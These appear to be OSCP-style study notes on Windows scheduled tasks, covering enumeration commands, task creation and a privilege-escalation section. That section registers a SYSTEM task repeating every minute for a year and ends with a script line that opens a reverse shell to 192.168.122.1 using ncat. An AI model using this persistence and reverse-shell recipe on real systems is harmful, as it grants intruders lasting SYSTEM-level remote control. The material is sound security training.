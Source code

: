 ## Enumeration

**List all scheduled tasks**
- PowerShell
```powershell
Get-ScheduledTask
```
- CMD
```cmd
schtasks /query
```

**List Tasks in a Specific Folder**
```powershell
Get-ScheduledTask | Where-Object {$_.TaskPath -eq "\Microsoft\Windows\Shell\"}
```

---

**List tasks with detailed information**
```powershell
Get-ScheduledTask -TaskName "MyTask" | Get-ScheduledTaskInfo
```

![](img/task01.png)

In the above example:
```powershell
Get-ScheduledTask -TaskName "CreatedObjectTask" | Get-ScheduledTaskInfo
```

To be more specific we can do the following command:
```powershell
Get-ScheduledTask -TaskPath "\Microsoft\Windows\Shell\" -TaskName "CreatedObjectTask" | Get-ScheduledTaskInfo
```

```powershell
schtasks /query /FO LIST /V
```


```powershell
Get-ScheduledTask -TaskName "XblGameSaveTask" | Format-List *
```

---

**Extract binary path and arguments of services**
```powershell
(Get-ScheduledTask -TaskName "XblGameSaveTask").Actions
```


```powershell
Get-ScheduledTask | ForEach-Object { $_.Actions }
```

---

**Export task configuration as XML**
```powershell
Export-ScheduledTask -TaskName "XblGameSaveTask" -TaskPath "\Microsoft\XblGameSave\"
```

## Creation and Deletion

Simple task that runs when user logins to execute `notepad.exe`
```powershell
$action = New-ScheduledTaskAction -Execute "notepad.exe"
```

```powershell
$trigger = New-ScheduledTaskTrigger -AtLogOn
```

```powershell
Register-ScheduledTask -TaskName "MyTask" -Action $action -Trigger $trigger -User "quickem-h5dsq1v\quickemu"
```
- Try enumerating the new task with the commands we used previously. 
- Could be useful for automation. 

Delete task
```powershell
Unregister-ScheduledTask -TaskName "SimpleTask" -Confirm:$false
```

## Exploitation

Define task config:
```powershell 
$Action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-File C:\Users\Quickemu\tasks\test1.ps1"
```

```powershell
$Trigger = New-ScheduledTaskTrigger -Once -At (Get-Date) -RepetitionInterval (New-TimeSpan -Minutes 1) -RepetitionDuration (New-TimeSpan -Days 365)
```

```powershell
$Principal = New-ScheduledTaskPrincipal -UserId "SYSTEM" -LogonType ServiceAccount -RunLevel Highest
```

File used: `test1.ps1`
```ps1
mkdir C:\Users\Quickemu\tasks/test
whoami > C:\Users\Quickemu\tasks/test/whoami.txt
```

Register task:
```powershell 
Register-ScheduledTask -TaskName "SimpleTask" -Action $Action -Trigger $Trigger -Principal $Principal
```

 In the definition we see that we're executing the `C:\Users\Quickemu\tasks\test1.ps1` file using `powershell.exe` every minute for an entire year, and the task is executed as the `SYSTEM` account.
```powershell 
Unregister-ScheduledTask -TaskName "SimpleTask" -Confirm:$false
```

Turning our `.ps1` file into a reverse shell:
```ps1
mkdir C:\Users\Quickemu\tasks/test
whoami > C:\Users\Quickemu\tasks/test/whoami.txt
C:\Users\Quickemu\tasks/ncat.exe 192.168.122.1 4321 -e cmd.exe
```

For OSCP look for comments about:
- New-ScheduledTaskPrincipal
- Register-ScheduledTask

Try to understand if a schedule task is going on. Otherwise, focus on easier things to enumerate. 

---
##  References

 Task Scheduler for developers: <https://learn.microsoft.com/it-it/windows/win32/taskschd/task-scheduler-start-page

Course Material: https://github.com/LeonardoE95/yt-en/blob/main/src/2024-12-16-windows-privesc-scheduled-tasks/content/notes.txt

